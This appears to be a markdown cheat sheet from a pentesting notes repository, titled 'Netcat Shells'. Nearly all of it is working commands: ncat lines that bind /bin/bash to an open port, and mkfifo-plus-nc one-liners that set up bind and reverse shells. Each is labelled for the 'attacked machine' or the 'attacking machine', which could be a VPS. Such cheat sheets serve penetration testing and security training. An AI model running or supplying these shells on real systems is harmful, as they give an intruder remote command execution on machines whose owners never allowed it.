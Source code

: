 # Netcat Shells

```sh
ncat --exec "/bin/bash" -l 8081 --keep-open
 # Bind to TCP port
 # 8081 and attach /bin/bash for the world to access freely
```

```sh
ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open
 # Bind a shell to TCP port 8081, limit access to
 # hosts on a local network, and limit the maximum number of
 # simultaneous connections to 3
```

## Bind Shell with minimal Netcat (nc without --exec or -e)

![Bind Shell](img/Bind_Shell_Scenario.png)

Bind shell is a common scenario, we can think about a classical "
ssh-like" session when we think about bind shells. On the
attacked machine (the one on which we would like to talk) we
should execute:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 3333 > /tmp/f
 # keeps an opened port, in this case "3333" to
 # execute commands from a remote machine
```

on the attacking machine (the one from where we will issue
commands) instead we execute:

```sh
nc 127.0.0.1 3333
```

Bind Shell and Reverse Shell can be more elegant by using ssl, in
order to not let other decrypt the traffic.


## Reverse Shell with minimal Netcat (nc without --exec or -e)

![Reverse Shell](img/Reverse_Shell_Scenario.png)

On the attacking machine (which could be a VPS) we execute:

```sh
nc -nlvp 3333
 # this is the local machine on which we keep a
 # port opened to issue commands and view the output
```

On the attacked machine we have to issue:

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 127.0.0.1 3333 > /tmp/f
 # this has to be issued on the attacked machine
```

now from the attacking machine we can issue commands and see output.


